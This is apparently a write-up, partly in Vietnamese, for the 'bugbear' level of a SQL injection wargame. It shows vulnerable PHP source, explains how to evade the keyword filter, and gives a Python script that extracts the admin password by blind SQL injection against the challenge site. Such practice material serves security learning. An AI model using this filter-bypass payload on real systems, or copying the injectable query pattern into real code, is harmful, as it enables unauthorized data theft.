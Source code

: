 bugbear
===
### Description
- Source:
```
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

### Solution
- Phân tích code: Đầu vào của chương trình cho là `pw` và `no`. `pw` bị filter kí tự `'` còn `no` bị filter bởi các kí tự (cụm) `', substr, ascii, =, or, and, %20, like, 0x`. Câu query đầu tiên nếu chúng ta nhập vào pw và no đúng thì sẽ trả về id của guest sau đó in ra `Hello guest`. Câu query thứ hai sẽ trả về id của admin nếu chúng ta nhập vào `pw` đúng với `pw` được trả về trong database và chúng ta có thể giải quyết bài này.
- Không thể kiểm tra length của pw bằng cách của những bài trước vì `like` và `0x` đã bị filter
- Ở bài này chúng ta có thể bypass bằng cách sau: `or` bằng `||`, `and` bằng `&&`, `substr` bằng `mid, left, right,...` ở đây mình sử dụng left, `like` bằng `in` và sử dụng thêm dấu `>` và `<`.

#### Payload
- Code:
```
import requests
import string

url="https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php"
header = {'Cookie':'PHPSESSID=vl8pmdg5efq4vgrnf0k309fh3l'}
flag = ''
lists = string.digits+string.ascii_lowercase+string.ascii_uppercase
for i in range(1,256):
	for j in lists:
		temp = flag+j
		param = f'pw=1&no=1||true%26%26id%09in("admin")%26%26left(pw,{i})%09IN%09("{temp}")--%09-'
		print(param)
		r = requests.get(url=url,params=param,headers=header)
		if "Hello admin" in r.text:
			flag += j
			print(flag)
			break
	if len(flag)==8:
		exit(0)
```